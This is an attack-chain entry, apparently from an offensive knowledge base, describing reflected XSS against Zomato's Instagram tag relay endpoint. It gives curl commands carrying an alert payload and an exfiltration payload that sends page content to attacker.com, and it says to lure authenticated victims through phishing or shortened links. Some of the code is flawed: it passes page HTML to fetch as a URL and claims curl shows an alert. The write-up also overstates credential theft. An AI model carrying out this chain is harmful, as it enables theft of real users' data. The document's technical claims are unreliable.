

---
tags:
  - xss
  - reflected-xss
  - javascript-execution
  - data-exfiltration
  - zomato
  - instagram
type: attack_chain
tools: []
tactics:
  - '[[Execution]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Identify-Zomato-Instagram-Tag-Relay-Endpoint]]'
  - '[[procedures/Test-Reflected-XSS-with-JavaScript-Payload]]'
  - '[[procedures/Exfiltrate-Sensitive-Data-via-XSS]]'
step_count: 3
techniques:
  - '[[JavaScript]]'
  - '[[Collection]]'
updated_at: '2025-12-14T03:15:47.298Z'
description: >-
  A multi-stage attack exploiting a reflected XSS vulnerability in the Zomato
  Instagram tag relay endpoint to execute JavaScript and exfiltrate sensitive
  user data like email addresses from authenticated sessions.
skill_level: intermediate
impact_level: high
id: cbca57b1-aedf-49ea-9448-646573d9d3c0
validated: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[JavaScript]]'
  - '[[Collection]]'
---
# Reflected XSS in Zomato Instagram Tag Relay for Sensitive Data Exfiltration

Multi-stage attack chain demonstrating a complete attack workflow exploiting a reflected Cross-Site Scripting (XSS) vulnerability in the Zomato Instagram tag relay endpoint.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools for payload testing
- [[tools/curl]] for automated requests (optional)

### Target Environment

- Web platform
- PHP-based backend
- Instagram integration enabled

### Initial Access Requirements

- Public access to https://www.zomato.com
- For exfiltration: Victim must be authenticated with Zomato and have Instagram connected
- No credentials needed for initial testing; social engineering to trick victim into clicking malicious link

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Endpoint
procedure: [[procedures/Identify-Zomato-Instagram-Tag-Relay-Endpoint]]

**Objective**: Locate and confirm the vulnerable endpoint that reflects user input without sanitization.

**Instructions**: Examine the Zomato website for Instagram-related endpoints. Use browser inspection or directory scanning to find https://www.zomato.com/php/instagram_tag_relay. Test basic GET and POST requests to observe parameter reflection.

**Expected Output**: Response showing unsanitized reflection of the 'callback' parameter.

**Success Indicators**:
- Endpoint responds to requests with 'callback' parameter visible in output
- No immediate error or sanitization observed

### Step 2: Test Reflected XSS with JavaScript Payload
procedure: [[procedures/Test-Reflected-XSS-with-JavaScript-Payload]]

**Objective**: Inject and execute a JavaScript payload to confirm XSS vulnerability.

**Instructions**: Craft a URL-encoded payload for the 'callback' parameter and send via GET or POST. For example, use a browser to visit the endpoint with the payload, or automate with curl:

Use [[commands/curl-test-xss-alert]] to send a GET request:

```bash
curl "https://www.zomato.com/php/instagram_tag_relay?callback=%3Cscript%3Ealert(document.domain)%3C/script%3E"
```

Observe the alert popup confirming execution.

**Expected Output**: JavaScript alert displaying the domain, indicating successful execution.

**Success Indicators**:
- Alert or console log executes in the browser
- Payload reflects and runs without encoding

### Step 3: Exfiltrate Sensitive Data via XSS
procedure: [[procedures/Exfiltrate-Sensitive-Data-via-XSS]]

**Objective**: Leverage the XSS to steal sensitive information from authenticated users.

**Instructions**: When the victim (logged in with Instagram connected) accesses the malicious link, use an exfiltration payload to send page content to an attacker-controlled server. Craft the payload to close tags and inject an image src that beacons data:

Use [[commands/curl-exfil-payload]] to test the payload structure:

```bash
curl "https://www.zomato.com/php/instagram_tag_relay?callback=%3E%3Cimg+src%3Dx+onerror%3Dfetch(document.body.innerHTML).then(r%3D%3Er.text()).then(t%3D%3Efetch('https://attacker.com/exfil?data%3D'+encodeURIComponent(t)))%3E"
```

Host the malicious link on a phishing site or shorten it to lure the victim.

**Expected Output**: Data (e.g., email) received on attacker server from victim's session.

**Success Indicators**:
- Incoming request to attacker server with page content
- Sensitive data like email extracted from exfiltrated HTML

## Attack Chain Summary

### Key Achievements

1. Confirmed reflected XSS in a production endpoint
2. Demonstrated arbitrary JavaScript execution
3. Enabled theft of user credentials via session hijacking and exfiltration

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Collection]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---

*Last updated: 2023-10-01T00:00:00Z*
